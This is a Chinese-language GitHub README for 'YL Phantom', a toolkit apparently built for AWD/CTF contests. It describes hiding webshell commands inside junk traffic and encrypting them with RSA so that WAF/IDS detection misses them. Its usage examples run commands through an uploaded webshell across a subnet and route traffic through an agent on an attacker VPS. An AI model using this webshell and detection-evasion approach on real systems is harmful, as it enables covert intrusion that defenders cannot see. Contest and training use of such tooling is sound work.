

<div align="center">


# YL Phantom

**AWD 混淆流量 + RSA 加密攻击工具包**

`by Wwlsyl`


</div>

---

## 📖 简介

**YL Phantom** 是一套面向 **AWD（Attack With Defense）** 场景的一体化工具包，把「**混淆流量 + RSA 加密通信**」做成几条命令，用来绕过流量检测设备（WAF / IDS）对 webshell 交互的识别。

核心思路就一句话——**让 payload 在网络里看不出是 payload**：

- 🔀 `--mix`：**万假一真**，把真实请求藏在大量垃圾请求里；
- 🔐 `--rsa`：命令与回显**全程 RSA 加解密**，流量里抓不到明文指令；
- 🖥️ GUI 集成：改一个文件就能在图形界面里用上这两样。

> ⚠️ **免责声明**
> 本工具**仅限已获授权的 AWD / CTF 竞赛环境与自建靶场**使用。
> 用于未授权目标属于违法行为，一切后果由使用者自行承担。

---

## 📁 文件说明

| 文件                          | 作用                                                     |
| ----------------------------- | -------------------------------------------------------- |
| `rsa_crypto.py`               | Python RSA 加解密模块（密钥自动生成在 `rsa_keys.json`）  |
| `mix_attack.py`               | 命令行混淆攻击脚本（支持 普通 / Mix / RSA / Mix+RSA）    |
| `rsa_agent.php`               | RSA 代理 —— **私钥持有者**，放攻击者 VPS，作为加解密中转 |
| `creep_rsa.php`               | RSA 增强版木马（公钥嵌入，放靶机 web 目录）              |
| `rsa_keys.json`               | 当前密钥对（Python 自动生成）                            |
| `awd_toolkit_gui_modified.py` | GUI 修改版（替换 `管理工具/awd_toolkit_gui.py`）         |

---

## 🚀 使用方法

### 1️⃣ RSA 加密攻击（防流量检测）

**a.** 把 `creep_rsa.php` 上传到靶机 web 目录

**b.** 攻击端执行：

```bash
python mix_attack.py --ip 192.168.1.0/24 --shell-url /creep_rsa.php \
                     --rsa --mix --once -c "cat /flag"
```

**c.** 或者使用**本机 RSA Agent**（放本地）：

把 `rsa_agent.php` 部署到任意 PHP 服务器，然后加参数：

```bash
--rsa-agent http://your-vps/rsa_agent.php
```

### 2️⃣ 普通混淆攻击

```bash
python mix_attack.py --ip 192.168.1.0/24 --shell-url /shell.php \
                     --pass cmd --mix --once -c "cat /flag"
```

### 3️⃣ GUI 集成

把 `awd_toolkit_gui_modified.py` 替换 `管理工具/awd_toolkit_gui.py`，即可在 GUI 中操作 **RSA + 混淆**。

---

## ⚙️ 参数说明

| 参数           | 说明                               | 默认值       |
| -------------- | ---------------------------------- | ------------ |
| `--ip`         | 目标 IP / CIDR（逗号分隔）         | —            |
| `--shell-url`  | webshell 路径                      | `/shell.php` |
| `--pass`       | webshell 密码                      | `cmd`        |
| `-c`           | 执行命令（可多条）                 | —            |
| `--rsa`        | 启用 RSA 加密通信                  | 关           |
| `--rsa-agent`  | RSA Agent 地址（不填则用本地密钥） | —            |
| `--mix`        | 启用混淆流量（万假一真）           | 关           |
| `--fake-count` | 混淆请求数                         | `8`          |
| `--once`       | 单轮攻击（默认持续轮询）           | 关           |
| `--threads`    | 并发线程数                         | `20`         |
| `--interval`   | 轮询间隔秒数                       | `30`         |

---

## 🔑 密钥

- `rsa_keys.json` 由 `rsa_crypto.py` **首次运行时自动生成**；
- **删除该文件即可重新生成**一对新密钥；
- ⚠️ **PHP 与 Python 必须用同一套密钥**才能通信。

---

## 🔄 工作流程（RSA 模式）



```
攻击端（私钥）                        靶机（公钥）
     │                                    │
     ├── rsa_crypto.py 加密命令 ────────→ │
     │   （私钥加密 / 公钥解密）          │ creep_rsa.php 公钥解密
     │                                    │
     │ ←──── 公钥加密响应 ───────────────┤
     │   rsa_crypto.py 解密响应            │
```

---

<div align="center">


**YL Phantom**

</div>
